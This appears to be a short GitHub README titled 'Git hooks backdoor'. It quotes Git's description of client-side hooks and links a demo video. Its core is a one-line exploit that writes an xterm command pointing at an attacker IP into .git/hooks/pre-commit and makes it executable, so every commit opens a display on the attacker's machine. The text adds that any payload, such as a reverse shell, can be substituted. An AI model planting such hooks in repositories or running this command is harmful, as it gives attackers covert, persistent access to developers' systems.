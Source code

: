 Git hooks "backdoor"
======================

"*...Like many other Version Control Systems, Git has a way to fire off custom scripts when certain important actions occur. There are two groups of these hooks: client-side and server-side. Client-side hooks are triggered by operations such as committing and merging, while server-side hooks run on network operations such as receiving pushed commits. * **You can use these hooks for all sorts of reasons...**"

**Video**

<a href="http://www.youtube.com/watch?feature=player_embedded&v=rCVmWUf8x1E" target="_blank"><img src="http://img.youtube.com/vi/rCVmWUf8x1E/0.jpg" alt="Profit with Git hooks!" width="480" height="360" border="10" /></a>

**Exploit**
```shell-session

echo "xterm -display <attacker IP>:1 &" > .git/hooks/pre-commit; chmod +x .git/hooks/pre-commit

```

You can use whatever payload you want to exploit, using lame xterm to visually show off payload execution reversing a shell to attacker.

